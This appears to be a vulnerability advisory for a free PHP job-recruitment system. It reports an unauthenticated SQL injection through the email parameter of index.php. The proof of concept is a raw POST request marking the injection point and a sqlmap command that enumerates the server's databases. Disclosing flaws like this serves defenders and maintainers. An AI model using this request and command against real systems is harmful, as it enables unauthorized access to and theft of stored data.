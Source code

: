 # Job-recruitment-in-php has sql injection vulnerability in index.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
index.php
## describe
Through code audit, when there is an unauthorized SQL injection vulnerability in the index.php of the Job_Recruitment systtem, The information of the database can be obtained without authorization, and arbitrary commands may be executed. control parameter: **$email**

## code analysis
The **$email** parameters of the index.php are not filtered and concatenated into the SQL statement for execution. There sql injection vulnerability.

![image-20241110232236971](https://github.com/user-attachments/assets/eec9ee9d-ef11-4dfa-9bb9-09ff8c933f78)

## POC

### Get data

```
POST /index.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/index.php/
Cookie: PHPSESSID=apdbj581m83cio8cj275e494dr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1*&p=1
```

save as 1.txt 

and excute the command

```
python sqlmap.py -r 1.txt --dbs
```

get databases: owlphin,bloodbank,curd...

![image-20241111082034200](https://github.com/user-attachments/assets/50345c08-9441-4f67-aa07-cf6c9855d373)

**Discover**

西安电子科技大学 李腾，谢亚轩
